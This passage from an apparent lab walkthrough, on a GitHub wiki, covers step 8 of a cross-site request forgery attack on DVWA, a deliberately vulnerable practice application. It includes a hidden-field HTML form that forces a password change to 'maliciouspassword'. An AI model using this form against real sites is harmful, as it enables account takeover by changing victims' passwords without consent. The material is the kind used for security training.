 ![Intercept Request](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/8.png?raw=true)

---

### 🧠 Step 8: Craft a Malicious CSRF Exploit

1. Copy the intercepted request details.
2. Create a malicious HTML form that mimics the CSRF request.
3. Example of a crafted CSRF exploit form:

   ```html
   <form action="http://<DVWA-IP>/dvwa/vulnerabilities/csrf/" method="POST">
       <input type="hidden" name="password_new" value="maliciouspassword">
       <input type="hidden" name="password_conf" value="maliciouspassword">
       <input type="hidden" name="Change" value="Change">
       <input type="submit" value="Submit">
   </form>
   ```

4. Save the HTML file and open it in a browser.

![Crafted Exploit](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Posea%20Alina/images/9.png?raw=true)

---
